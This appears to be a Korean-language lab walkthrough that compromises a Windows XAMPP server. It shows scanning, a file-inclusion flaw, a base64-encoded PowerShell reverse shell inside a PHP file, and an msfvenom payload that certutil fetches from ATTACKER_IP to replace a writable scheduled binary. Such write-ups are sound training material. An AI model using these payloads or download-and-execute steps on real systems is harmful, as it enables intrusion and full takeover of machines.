






## 정보 수집
namp을 통해 포트 스캔을 수행함.
```
└─$ ports=$(nmap -p- --min-rate=1000 -T4 -Pn 192.168.180.53 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
└─$ nmap -p$ports -sC -sV -Pn 192.168.180.53                               
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-10 03:38 EDT
Nmap scan report for 192.168.180.53
Host is up (0.097s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.180.53:4443/dashboard/
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.180.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-10-10T07:42:18
|_  start_date: N/A
|_clock-skew: 48s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 180.46 seconds
```

8080 ,4443 포트 접근 시 xampp 대시보드가 확인됨.


4443 포트에서 dirsearch 툴을 이용해 /site 디렉토리를 발견.
```
└─$ dirsearch -u http://192.168.180.53:4443/ -e '*' -o dirsearch-4443.txt -r
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                       
 (_||| _) (/_(_|| (_| )                                                                                
                                                                                                       
Extensions: php, jsp, asp, aspx, do, action, cgi, html, htm, js, tar.gz | HTTP method: GET
Threads: 25 | Wordlist size: 14594

Output File: dirsearch-4443.txt

Target: http://192.168.180.53:4443/

[03:50:20] Starting:                                                                                   
[03:51:21] 301 -  346B  - /site  ->  http://192.168.180.53:4443/site/
```

/site 디렉토리에 접근하면 index.php로 리다이렉트되며, page 파라미터가 확인됨.


page 파라미터에 Windows\System.ini 로 경로 변조 시도하면 파일이 include되어 시스템 설정이 화면에 출력.


## 초기 침투
리버스쉘 php코드를 작성한 뒤 python 모듈로 80포트 오픈.
```
└─$ cat shell.php        
<?php
exec("powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA2ACIALAA5ADkAOAA4ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==");
?>

└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

page파라미터에 공격자가 오픈한 80포트로 /shell.php를 접근하면 netcat으로 열어둔 리스너에 리버스쉘이 확인됨.



## 권한 상승
Backup 디렉토리를 확인했으며, TFTP.EXE가 5분마다 실행되는 것을 확인.
```
PS C:\Backup> type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

실제로 TFTP.EXE은 실행되고 있음.
```
PS C:\Backup> wmic process get Name,ProcessId,CreationDate

CreationDate               Name                         ProcessId
20261010080500.467059-420  TFTP.EXE                     7460
```

TFTP.EXE 파일에 모든 권한이 부여됨.
```
PS C:\Backup> icacls C:\Backup\TFTP.EXE
C:\Backup\TFTP.EXE BUILTIN\Users:(I)(F)
                   BUILTIN\Administrators:(I)(F)
                   NT AUTHORITY\SYSTEM:(I)(F)
                   NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files
```

msfvenom를 이용해 리버스쉘 페이로드 제작.
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o TFTP.EXE
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: TFTP.EXE
```

기존 파일을 TFTP_OLD.EXE로 백업을 한 뒤 공격자 PC로 부터 악성 페이로드를 다운로드.
```
PS C:\Backup> mv TFTP.EXE TFTP_OLD.EXE
PS C:\Backup> certutil.exe -urlcache -split -f http://ATTACKER_IP/TFTP.EXE TFTP.EXE
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

몇 분 후 netcat을 통해 관리자 리버스쉘이 확인됨.

